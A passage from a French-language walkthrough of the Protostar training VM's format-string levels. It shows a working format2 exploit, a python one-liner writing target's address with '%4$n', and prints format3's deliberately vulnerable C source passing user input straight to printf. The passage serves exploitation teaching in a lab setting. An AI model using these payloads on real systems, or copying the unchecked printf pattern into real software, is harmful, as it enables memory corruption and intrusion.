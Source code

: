 Autre particularité, la lecture se fait via l'entrée standard :

```shellsession
user@protostar:/opt/protostar/bin$ ./format2 
AAAA%4$8x
AAAA41414141
target is 0 :(
```

On doit placer la valeur `64` dans `target`. On place donc l'adresse de `target` suivie de 60 caractères `A` puis le format d'écriture de caractères lus :

```shellsession
user@protostar:/opt/protostar/bin$ python -c 'import struct; print struct.pack("<I", 0x080496e4) + "A"*60 + "%4$n"' > /tmp/input
user@protostar:/opt/protostar/bin$ ./format2 < /tmp/input 
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
you have modified the target :)
```

## Level 3

Toujours grosso-modo la même chose mais cette fois la valeur à écraser est bien plus grosse et seulement 512 octets maximum sont lus sur l'entrée standard :

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```
